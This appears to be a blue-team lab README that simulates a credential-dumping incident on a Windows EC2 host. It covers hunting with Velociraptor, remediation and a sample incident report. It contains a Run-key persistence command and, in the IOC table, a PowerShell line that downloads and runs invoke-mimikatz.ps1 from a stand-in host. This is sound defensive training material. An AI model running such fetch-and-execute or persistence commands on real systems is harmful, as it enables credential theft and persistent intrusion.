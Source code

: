 # AWS-CRED-DUMP

## Step 1: Simulate the Incident
Open PowerShell as Administrator and run the following command:
> <br />*powershell -EncodedCommand aABpACAAJABFAE4AdgA6AFUAcwBlAHIA*

<br />This is a benign base64-encoded PowerShell command (hi $Env:User) that mimics obfuscation often used in real attacks.

You can also simulate a registry-related command:
>*Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "TestRunKey" -Value "cmd.exe"*

<br />This triggers Sysmon Event ID 13 for registry modifications—often seen in persistence mechanisms.

## Step 2: Run a Velociraptor Hunt
<br />From your SIFT server:

***Artifacts to Use:***
<br />*Windows.EventLogs.EvtxHunter*
<br />*Windows.EventLogs.Sysmon.ProcessCreation*
<br />*Windows.Triage.Sysmon*
<br />*Detection.Yara.Process (optional for rule matching)*

No filters needed yet. Let it return everything, or filter by:

<br />*Event ID = 1
<br />*CommandLine contains *EncodedCommand* or *Set-ItemProperty*

## **Step 3: Export the Results**
After 3–5 minutes:

Go to your Hunt Manager

Export the results:

Choose CSV Only or JSON Only

Transfer the file to your Windows machine using your PS HTTP method or another safe option

## Step 4: Analyze the IOCs
Use VS Code or Excel (if available) to search for these indicators:

Search Terms:
<br />" *EncodedCommand* "
<br />" *User* "
<br />" *'EventID': 13* "
<br />" *'EventID': 4104* "
<br />" *Credential* "
<br />" \\\REGISTRY\\\ "

You should see a process like:
> powershell.exe -EncodedCommand aABpACAAJABFAE4AdgA6AFUAcwBlAHIA
> 
<br /> or

>cmd.exe /c Set-ItemProperty ...
>
These mimic credential dumping or persistence behavior—common tactics in real attacks.

# Remediation

## Step 1. Remove Persistence 
Delete the malicious Run key:
> Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "TestRunKey"
## Step 2. Delete Dropped Scripts (if any)
If a payload was saved to disk, delete it.
>Remove-Item "C:\Path\To\invoke-mimikatz.ps1"
## Step 3. Change Credentials
Since credentials may have been dumped:


Change passwords for affected users (especially Administrator)

In a real case, force domain-wide password reset

## Step 4. Disable PowerShell Logging Bypass (optional hardening)
Enforce ExecutionPolicy via Group Policy.
Enable full PowerShell transcription logging.

## Step 5. Update & Patch
Apply any missing Windows security patches.
Run antivirus/malware scans to verify cleanup.
<br />
<br />
<br />
<br />
<br />
<br />
<br />
<br />
<br />
<br />
# Incident Report (*Optional*)
## <br />  Executive Summary
<br /> On June 17, 2025, suspicious PowerShell activity was detected on an EC2 Windows host. A review of logs confirmed the download and execution of a known credential dumping script (Invoke-Mimikatz). Registry persistence was also observed, indicating an attempt to maintain access. The incident was contained, and mitigation steps were implemented.
<br />

| IOC Type                    | Value / Description                                                                                     |
|----------------------------|-------------------------------------------------------------------------------------------------------|
| PowerShell Download         | IEX (New-Object Net.WebClient).DownloadString('http://example.com/invoke-mimikatz.ps1')                |
| Persistence                | HKU\...\CurrentVersion\Run\TestRunKey set to launch cmd.exe                                           |
| Registry Handle Leak        | EVENT_HIVE_LEAK from svchost.exe                                                                       |
| User                       | EC2AMAZ-OTMH1RS\Administrator                                                                          |
| Process                    | powershell.exe PID 3020                                                                                 |
| Timestamp                  | 2025-06-15 18:34:52 UTC                                                                                |
| Event ID                   | 4104 (PowerShell ScriptBlock Logging)                                                                  |
| Command                    | powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString..." |
| Technique                  | T1059.001 – PowerShell<br>T1105 – Remote File Copy<br>T1003.001 – LSASS Memory                          |
| Significance               | Strong evidence of credential dumping via in-memory Mimikatz execution                                 |

<br />
<br />

## Analysis

<br />
Velociraptor logs showed Event ID 4104 containing a PowerShell ScriptBlock attempting to download invoke-mimikatz.ps1. This strongly indicates credential dumping activity. Additionally, Event ID 13 revealed registry RunKey modification used for persistence, and Event ID 1530 disclosed abnormal registry handle leaks, possibly indicative of memory access or mismanagement post-compromise.
<br />

## Remediation Steps
<br />1. Terminate Malicious Process:
- Identify PID (e.g., 3020 running powershell.exe)
-Kill process via Task Manager or PowerShell

<br />2. Delete Registry Persistence Key:
-Path: HKU\S-1-5-...\Run\TestRunKey
-Remove via reg delete or Registry Editor

<br />3. Block PowerShell Web Downloads:
Group Policy or Defender ASR Rule to restrict *Invoke-WebRequest* or *Net.WebClient*

<br />4. YARA or Velociraptor Rule:
-Flag Event ID 4104 for downloads from http://*
Monitor Registry changes to \Run\ keys

## Detection Enhancement

Custom artifact (*CredDumpDetection*) was created and uploaded to Velociraptor to monitor for future suspicious PowerShell and persistence activity. It queries for:
- Sysmon Event ID 13
- PowerShell Event ID 4104


